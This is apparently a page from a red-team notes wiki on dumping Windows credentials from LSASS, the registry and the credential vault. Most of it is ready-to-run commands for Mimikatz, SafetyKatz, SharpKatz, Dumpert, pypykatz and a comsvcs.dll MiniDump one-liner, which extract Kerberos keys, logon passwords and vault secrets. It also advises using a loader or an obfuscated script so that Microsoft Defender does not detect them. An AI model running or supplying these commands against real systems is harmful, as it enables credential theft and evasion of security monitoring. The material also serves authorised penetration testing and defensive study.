 # Credentials Dumping

## LSASS

{% hint style="warning" %}
High chances of detection. Always use the Loader.exe to use these. Otherwise, it will be detected by the defender.
{% endhint %}

Use [impacket ](https://github.com/fortra/impacket)if you are using a Linux machine as an attacker machine. Instead of Mimikatz a obfuscated version called **Invoke-Mimi.ps1**(inside _Tools_ folder) can be used too.

Some of the credentials can be extracted without touching **LSASS**:

* SAM Hive (Registry) - Local Admins (Try to avoid)
* LSA Secrets/Security Hive (Registry) - Service Account Passwords, Domain Cached Credentials (Maybe Detected)
* DPAPI Protected Credentials (Disk) - Credentials Manager/Vault, Browser Cookies, Certificates, Azure Tokens (Best for secops)

### Kerberos encryption keys

The Kerberos SSP used by LSASS in order to provide different authentication methods.\
Therefore, it possible to dump Kerberos encryption keys using `sekurlsa::ekeys`.

```powershell
# Dump credentials on a local machine using Mimikatz.
Invoke-Mimikatz -Command '"sekurlsa::ekeys"' 

# Using SafetyKatz (Minidump of lsass and PELoader to run Mimikatz)
SafetyKatz.exe "sekurlsa::ekeys" 

# Dump credentials Using SharpKatz (C# port of some of Mimikatz functionality).
SharpKatz.exe --Command ekeys

# Dump credentials using Dumpert (Direct System Calls and API unhooking)
rundll32.exe C:\Dumpert\Outflank-Dumpert.dll,Dump

# Using pypykatz (Mimikatz functionality in Python)
pypykatz.exe live lsa

# Using comsvcs.dll
tasklist /FI "IMAGENAME eq lsass.exe"
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump
<lsass process ID> C:\Users\Public\lsass.dmp full 
```

### Logon Passwords

This usually shows recently logged on user and computer credentials.

```powershell
Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"' 
```

## Vault

Enumerates vault credentials of scheduled tasks.

```powershell
Invoke-Mimi -Command '"token::elevate" "vault::cred /patch"'
```

####
